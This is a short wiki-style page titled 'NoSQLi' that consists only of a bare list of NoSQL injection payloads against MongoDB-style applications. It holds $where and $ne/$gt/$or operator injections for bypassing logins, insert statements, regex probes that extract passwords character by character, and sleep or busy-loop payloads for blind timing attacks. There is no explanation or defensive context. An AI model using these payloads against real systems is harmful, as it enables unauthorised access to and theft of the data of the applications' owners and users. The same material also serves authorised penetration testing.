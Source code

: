 ```yaml
---
title: NoSQLi
description: 
published: true
date: 2021-01-21T03:59:39.600Z
tags: 
editor: markdown
dateCreated: 2021-01-21T03:59:39.600Z
---
```


# NoSQL Injection Payloads
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/./)//+%00
' && this.passwordzz.match(/./)//+%00
'%20%26%26%20this.password.match(/./)//+%00
'%20%26%26%20this.passwordzz.match(/./)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';sleep(5000);'
';sleep(5000);+'
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);